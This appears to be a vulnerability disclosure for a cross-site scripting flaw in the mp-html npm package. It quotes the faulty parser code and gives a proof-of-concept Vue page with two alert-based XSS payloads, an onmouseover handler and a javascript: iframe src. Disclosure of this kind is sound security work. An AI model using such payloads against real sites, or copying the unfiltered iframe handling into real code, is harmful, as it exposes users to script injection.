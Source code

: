 # XSS Vulnerability in mp-html

## Basic information

Vulnerability Author: Li MuFeng(mufeng2022@hust.edu.cn)

Vulnerable npm package: mp-html

Npm url: https://www.npmjs.com/package/mp-html

Github url: https://github.com/jin-yufeng/mp-html

Vulnerable version: <= 2.5.0

Vulnerable file: src/uni-app/components/mp-html/parser.js

```js
if (
  node.name === "a" ||
  node.name === "ad" ||
  // #ifdef H5 || APP-PLUS
  node.name === "iframe" // eslint-disable-line
  // #endif
) {
  this.expose();
}
```

In parser.js, line 799. The 'iframe' tags are exposed with 'src' attributes unfiltered, which cause a Cross-Site Scripting vulnerability.

## Payload

pages/index/index.vue:

```js
<template>
	<view class="content">
		<image class="logo" src="/static/logo.png"></image>
		<view class="text-area">
			<mp-html :content="html" />
		</view>
	</view>
</template>

<script>
	import mpHtml from '@/uni_modules/mp-html/components/mp-html/mp-html'
	export default {
		components: {
		  mpHtml
		},
		data() {
			return {
                // payload1: <div onmouseover="alert('XSS1')">Hello World!</div>
                // payload2: <iframe src="javascript:alert('XSS2')"/>
				html: `
				<div onmouseover="alert('XSS1')">Hello World!</div>
				<iframe src="javascript:alert('XSS2')"/>
				`,
			}
		},
		onLoad() {

		},
		methods: {

		}
	}
</script>;

```

Payload1 and payload2 are used to create an alert in user's browser.

Payload1 uses an 'onmouseover' attribute to trigger JavaScript when the user's mouse pointer passes by.

Payload2 uses 'src' attribute in 'iframe' tag which allow browsers to execute JavaScript immediately when the tag is loaded.

Through carefully constructed payloads, attackers can execute any command as they want.

## Exploit

Environment: Windows, Node.js, Hbuilder X

Clone the repository and run the project on browsers(Chrome) in Hbuilder X.
